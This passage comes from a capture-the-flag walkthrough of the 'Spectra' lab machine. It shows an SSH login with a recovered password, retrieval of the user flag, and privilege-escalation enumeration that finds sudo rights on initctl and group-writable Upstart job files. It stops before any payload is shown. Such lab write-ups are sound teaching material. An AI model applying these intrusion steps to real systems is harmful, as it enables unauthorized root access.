 I can connect as katie over SSH:

    
    
    oxdf@parrot$ sshpass -p 'SummerHereWeCome!!' ssh katie@10.10.10.229
    katie@spectra ~ $
    

And I can get `user.txt`:

    
    
    katie@spectra ~ $ cat user.txt
    e89d27fe************************
    

## Shell as root

### Enumeration

katie has `sudo` rights on `initctl`:

    
    
    katie@spectra ~ $ sudo -l
    User katie may run the following commands on spectra:
        (ALL) SETENV: NOPASSWD: /sbin/initctl
    

`initctl` “allows a system administrator to communicate and interact with the
Upstart init(8) daemon.” More on that in a minute.

katie is also a member of the `developers` group:

    
    
    katie@spectra ~ $ id    
    uid=20142(katie) gid=20142(katie) groups=20142(katie),20143(developers)
    

That provides access to a handful of files that were previously unaccessible:

    
    
    katie@spectra ~ $ find / -type f -group developers 2>/dev/null -ls
       167026      4 -rw-rw----   1  root     developers      478 Jun 29  2020 /etc/init/test2.conf
       167738      4 -rw-rw----   1  root     developers      478 Jun 29  2020 /etc/init/test5.conf
       167742      4 -rw-rw----   1  root     developers      478 Jun 29  2020 /etc/init/test9.conf
       167737      4 -rw-rw----   1  root     developers      478 Jun 29  2020 /etc/init/test4.conf
       167741      4 -rw-rw----   1  root     developers      478 Jun 29  2020 /etc/init/test8.conf
       167740      4 -rw-rw----   1  root     developers      478 Jun 29  2020 /etc/init/test7.conf
       166685      4 -rw-rw----   1  root     developers      478 Jun 29  2020 /etc/init/test.conf
       167739      4 -rw-rw----   1  root     developers      478 Jun 29  2020 /etc/init/test6.conf
       167717      4 -rw-rw----   1  root     developers      478 Jun 29  2020 /etc/init/test3.conf
       167743      4 -rw-rw----   1  root     developers      478 Jun 29  2020 /etc/init/test10.conf
       167736      4 -rw-rw----   1  root     developers      478 Jun 29  2020 /etc/init/test1.conf
       134642      4 -rwxrwxr-x   1  root     developers      251 Jun 29  2020 /srv/nodetest.js
    

The `.conf` files are all the same:

    
    